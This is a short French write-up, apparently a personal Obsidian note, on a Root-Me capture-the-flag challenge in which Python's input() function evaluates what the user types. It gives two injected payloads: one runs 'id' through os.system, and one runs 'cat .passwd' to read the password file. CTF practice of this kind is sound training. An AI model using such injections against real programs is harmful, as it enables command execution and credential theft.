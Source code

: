 <script src="../../../js/password-protect.js"></script>

---
categorie: app-script
---

#informatique/cyber 
#rootme


![[Pasted image 20230807213728.png]]

![[Pasted image 20230807213743.png]]
La faille ici, câ€™est lâ€™utilisation de la fonction Â«Â inputÂ Â», pour voir la faille, il suffit de faire un appel du genre :
```bash
__import__('os').system('id')

```
pour rÃ©cupÃ©rer le mot de passe il suffit de faireÂ :
```bash
__import__('os').system('cat .passwd')
```

![[Pasted image 20230807214149.png]]